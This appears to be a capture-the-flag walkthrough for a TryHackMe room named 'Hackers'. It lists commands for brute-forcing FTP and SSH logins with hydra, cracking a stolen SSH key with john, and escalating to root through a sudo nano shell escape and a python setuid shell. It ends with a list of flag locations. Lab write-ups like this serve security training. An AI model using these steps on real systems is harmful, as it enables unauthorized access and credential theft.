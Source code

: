 # Hackers 
## Step 1
`ftp hackers.thm` anonymous login *optional*
### Gcrawford Path
1. `hydra ftp://hackers.thm -l gcrawford -P /usr/share/wordlists/rockyou.txt -t 64`
2. `ftp hackers.thm` login with `gcrawford` and get `id_rsa` and `business.txt`
3. `ssh2john.py id_rsa > ssh_hash.txt`
4. `john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
5. `ssh2john.py id_rsa > ssh_hash.txt && john ssh_hash.txt --format=ssh --wordlist=/usr/share/wordlists/rockyou.txt`
6. `ssh -i id_rsa -l gcrawford hackers.thm `
7. `sudo nano`
8. CTRL+R, CTRL+X
9. `reset; sh 1>&0 2>&0`
### Rcampbell Path
1. `hydra ssh://hackers.thm -l rcampbell -P /usr/share/wordlists/rockyou.txt -t 64` or `msfconsole` `use auxiliary/scanner/ssh/ssh_login`
2. `getcap -r / 2>/dev/null` *optional*
3. `python -c 'import os,pty; os.setuid(0);pty.spawn("/bin/bash")'`

## Flags
1. /root/.flag
2. /home/gcrawford/business.txt
3. /home/tryhackme/.flag
4. /home/rcampbell/.flag
5. /home/production/.flag
6. /home/production/webserver/resources/main.css
7. /var/ftp/.flag
8. /etc/vsftpd.conf
9. /etc/ssh/sshd_config
